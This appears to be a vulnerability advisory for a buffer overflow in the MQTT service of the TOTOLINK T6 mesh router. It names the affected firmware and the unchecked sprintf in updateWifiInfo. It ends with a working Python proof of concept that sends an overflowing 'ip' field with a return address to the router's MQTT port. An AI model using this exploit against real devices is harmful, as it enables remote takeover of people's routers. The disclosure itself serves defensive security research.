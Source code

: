 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in `MQTT` service that lead to RCE.

# Vulnerability details

The `T6` routers open `MQTT` service and listen on port `1883`. In function `updateWifiInfo`. The `s` buffer is 64 bytes, and the `sprintf` doesn't check for the length of input.

![](8/1.png)

An attacker can implement a RCE attack by sending a malicious `MQTT` packet.

![](8/2.png)

# POC

```python
import paho.mqtt.client as mqtt

payload = b"A" * (0x40 - 9 + 20) + b"\x37\x33\x33\x13"

mqtt_data = b'''
    {
        "status":"1",
        "ip":"%s",
        "version":"123"
    }
''' % payload

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/recvSlaveCloudCheckStatus", mqtt_data)```




